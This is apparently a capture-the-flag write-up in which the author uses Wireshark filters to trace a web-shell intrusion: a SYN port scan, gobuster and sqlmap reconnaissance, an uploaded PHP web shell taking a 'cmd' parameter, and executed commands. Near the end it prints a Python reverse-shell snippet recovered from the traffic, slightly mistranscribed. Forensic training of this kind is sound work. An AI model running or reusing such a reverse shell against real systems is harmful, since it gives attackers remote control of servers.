# Network Analysis – Web Shell

## What is the IP responsible for conducting the port scan activity?

Port scanning is done for TCP ports.

In order to see the port scan activity, we have to to go `Statistics > Conversations > TCP`.

<figure><img src="../.gitbook/assets/1 (72).png" alt=""><figcaption></figcaption></figure>

### Answer

```
10.251.96.4
```



## What is the port range scanned by the suspicious host?

Let's sort `Port B` in an ascending order.

<figure><img src="../.gitbook/assets/2 (69).png" alt=""><figcaption></figcaption></figure>

We can see that the last port scanned is 1024.

### Answer

```
1-1024
```



## What is the type of port scan conducted?

We can filter the packets using the following filter:

```
ip.src == 10.251.96.4
```

<figure><img src="../.gitbook/assets/3 (64).png" alt=""><figcaption></figcaption></figure>

The packets that we filtered are TCP packets with the SYN flag set.

### Answer

```
TCP SYN
```



## Question 4

> Two more tools were used to perform reconnaissance against open ports, what were they?

The application/tool and its version can be identified using the `User-Agent` header.

Using the following filter we can filter out packets sent to the suspicious agent and the User-Agent header.

```
ip.dst == 10.251.96.5 && http.user_agent
```

<figure><img src="../.gitbook/assets/4 (50).png" alt=""><figcaption></figcaption></figure>

As we can see the first tool is GoBuster which is enumerating all the directories.

In order to find the second tool, we have to scroll down until we find an encoded URI.

<figure><img src="../.gitbook/assets/5 (47).png" alt=""><figcaption></figcaption></figure>

The second tool is SQLmap.

### Answer

```
gobuster 3.0.1, sqlmap 1.4.7
```



## What is the name of the php file through which the attacker uploaded a web shell?

The HTTP POST method is used to upload data to a server. We can filter for these packets using the following filter:

```
http.request.method == POST
```

Scrolling down, we can see a POST request made for a `upload.php` file.

<figure><img src="../.gitbook/assets/6 (44).png" alt=""><figcaption></figcaption></figure>

The `Referer` header in the packet tells us the address from which a resource has been requested.

### Answer

```
editprofile.php
```



## What is the name of the web shell that the attacker uploaded?

Let's follow the TCP stream for the same packet by going to `Follow > TCP Stream`.

<figure><img src="../.gitbook/assets/7 (34).png" alt=""><figcaption></figcaption></figure>

As we can see the `Content-Disposition` header is set to `form-data` with the `dbfunctions.php` as the filename.

### Answer

```
dbfunctions.php
```



## What is the parameter used in the web shell for executing commands?

In the same TCP Stream we can see an if statement that takes `cmd` as the parameter.

<figure><img src="../.gitbook/assets/7 (35).png" alt=""><figcaption></figcaption></figure>

### Answer

```
cmd
```



## What is the first command executed by the attacker?

The commands to the uploaded file are sent using GET requests. We can use the following filter to separate out these packets.

```
http.request.method == GET
```

<figure><img src="../.gitbook/assets/8 (25).png" alt=""><figcaption></figcaption></figure>

There were three commands executed: `id`, `python code` and `whoami`.

### Answer

```
id
```



## What is the type of shell connection the attacker obtains through command execution?

We need to open the packet with the python script.

<figure><img src="../.gitbook/assets/9 (18).png" alt=""><figcaption></figcaption></figure>

Once formatted, the script looks as follows:

```python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect("10.251.96.4", 4422);
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
p = subprocess.call(["/bin/sh", "-i"])
```

It creates a socket object `s` and connects to the specified IP address ("10.251.96.4") and port (4422).

It then uses `subprocess.call` to execute the `/bin/sh` shell with the "-i" flag, which opens an interactive shell session, effectively allowing the user to control the remote server.

This is inline with the characteristics of a reverse shell.

### Answer

<pre><code><strong>Reverse shell
</strong></code></pre>



## What is the port he uses for the shell connection?

We saw that the reverse shell connects to port 4422.

### Answer

```
4422
```
